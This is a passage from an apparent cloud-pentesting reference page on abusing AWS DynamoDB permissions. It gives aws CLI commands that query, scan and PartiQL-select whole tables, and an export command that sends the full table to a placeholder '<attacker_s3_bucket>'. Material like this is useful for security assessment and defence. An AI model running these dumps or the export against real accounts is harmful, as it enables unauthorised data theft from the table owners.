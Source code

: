 {% tab title="inline" %}
```bash
aws dynamodb query \
    --table-name TargetTable \
    --key-condition-expression "AttributeName = :value" \
    --expression-attribute-values '{":value":{"S":"TargetValue"}}' \
    --region <region>
```
{% endtab %}
{% endtabs %}

**Potential Impact:** Indirect privesc by locating sensitive information in the table

### `dynamodb:Scan`

You can use this permission to **dump the entire table easily**.

```bash
aws dynamodb scan --table-name <t_name> #Get data inside the table
```

**Potential Impact:** Indirect privesc by locating sensitive information in the table

### `dynamodb:PartiQLSelect`

You can use this permission to **dump the entire table easily**.

```bash
aws dynamodb execute-statement \
    --statement "SELECT * FROM ProductCatalog"
```

This permission also allow to perform `batch-execute-statement` like:

```bash
aws dynamodb batch-execute-statement \
    --statements '[{"Statement": "SELECT * FROM ProductCatalog WHERE Id = 204"}]'
```

but you need to specify the primary key with a value, so it isn't that useful.

**Potential Impact:** Indirect privesc by locating sensitive information in the table

### `dynamodb:ExportTableToPointInTime|(dynamodb:UpdateContinuousBackups)`

This permission will allow an attacker to **export the whole table to a S3 bucket** of his election:

```bash
aws dynamodb export-table-to-point-in-time \
    --table-arn arn:aws:dynamodb:<region>:<account-id>:table/TargetTable \
    --s3-bucket <attacker_s3_bucket> \
    --s3-prefix <optional_prefix> \
    --export-time <point_in_time> \
    --region <region>
```
